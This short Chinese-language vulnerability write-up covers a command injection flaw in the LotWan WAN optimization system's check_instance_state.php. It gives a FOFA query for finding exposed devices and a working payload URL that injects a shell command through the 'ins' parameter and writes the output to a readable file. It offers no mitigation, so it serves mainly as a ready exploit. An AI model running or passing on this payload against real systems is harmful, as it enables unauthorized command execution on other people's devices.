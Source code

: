 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## FOFA

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

存在漏洞的文件为

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 **/acc/cmd.txt**

![img](../../../.vuepress/public/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



若有收获，就点个赞吧